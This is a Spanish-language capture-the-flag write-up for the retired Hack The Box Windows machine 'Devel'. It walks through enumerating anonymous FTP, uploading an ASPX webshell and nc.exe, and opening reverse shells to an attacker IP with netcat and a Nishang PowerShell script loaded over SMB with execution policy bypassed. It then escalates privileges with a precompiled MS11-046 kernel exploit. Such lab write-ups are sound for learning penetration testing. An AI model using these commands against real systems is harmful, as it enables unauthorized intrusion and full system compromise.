 # Devel

![](./images/devel.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|FTP-Web|Kernel|

#
## 2. Enumeracion<a name="id1"></a>

### 2.1 Nmap

* Se lanza un escano **tcp port syns** scan jugando con el **min-rate** para no emitir paquetes más lentos que 5000 paquetes por segundo . Como resultado, se obtiene que los puertos 21 (ftp) y 80 (http) están abiertos.

![](./images/allPorts.png)

* Se lanzan una serie de scripts básicos de enumeración y para detectar la versión del puerto. La salida revela que el puerto 21 (ftp) tiene el acceso "anonymous" habilitado por defecto.

![](./images/targeted.png)

### 2.2 Web

* Haciendo uso de firefox, se analiza el contenido de la página web junto con las herramientas de desarrollador. 

* Destaca un archivo, la imagen **welcome.png**. Mismo nombre que se encuentra en el directorio raiz del ftp.

![](./images/web.png)

* Se prueba a subir vía ftp un archivo index.html. Si el servicio web hace uso del directorio raiz del servicio ftp para cargar los archivos, éste reproducirá el contenido del index.html.

![](./images/inyeccion.png)

* Wappalycer revela que se trata de un framework ASP.NET por lo que se puede subir una **webshell** en aspx para ejecutar código en la **máquina**.

#
## 3. Explotación<a name="id3"></a>

### 3.1 WebShell

* Haciendo uso de las **seclists** se localiza una cmd.aspx para subir al servidor vía ftp y un nc.exe para entablar una reverse shell.

```ftp
ftp> binary # Muy importante, error muy común
200 Type set to I.

ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1400 bytes sent in 0.00 secs (16.2822 MB/s)

ftp> put nc.exe 
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.01 secs (3.8814 MB/s)
ftp>
```

### 3.2 Reverse Shell con nc.exe

* El directorio raiz que utiliza ASP.NET es C:\inetpub\wwwroot\.

![](./images/reverse.png)

```bash
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.20 443
```

```bash 
rlwrap nc -lvnp 443
```

### 3.3 Reverse shell con Nishang

* Compartimos la shell en powershell com **impacket-smbserver** dando soporte a SMB2.

```bash
impacket-smbserver shell . -smb2support
```

* Finalmente se ejecuta el script en powershell. Para ello fue necesario permitir explicitamente la ejecución de scripts en powershell.

```bash
powershell -ExecutionPolicy Bypass \\10.10.14.20\SHELL\Invoke-PowerShellTcp.ps1
```

![](./images/nishang.png)

#
## 4. Priviledge Escalateion<a name="id4"></a>

### 4.1 CVE-2011-1249 - MS11-046

* La forma mas fácil es buscar el copilado  en un repositorio de github. https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2011-1249. Finalmente este copilado se traslada a la máquina y se ejecuta obteniendo privilegios de NT Authority System.

![](./images/elevate.png)





